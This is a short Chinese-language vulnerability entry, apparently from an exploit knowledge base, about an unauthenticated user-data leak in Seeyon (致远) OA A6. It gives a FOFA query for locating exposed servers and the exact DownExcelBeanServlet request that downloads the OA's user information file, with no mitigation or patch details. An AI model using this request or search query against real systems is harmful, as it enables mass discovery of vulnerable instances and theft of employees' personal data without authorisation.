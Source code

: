 # 致远OA A6 DownExcelBeanServlet 用户敏感信息泄露

## 漏洞描述

致远OA A6 存在某个未授权的接口导致任意访问者可下载OA中的用户信息

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## FOFA

<a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

访问如下URL即可跳转下载用户信息文件

```plain
/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0
```



![img](../../../.vuepress/public/img/zhiyuan-18.png)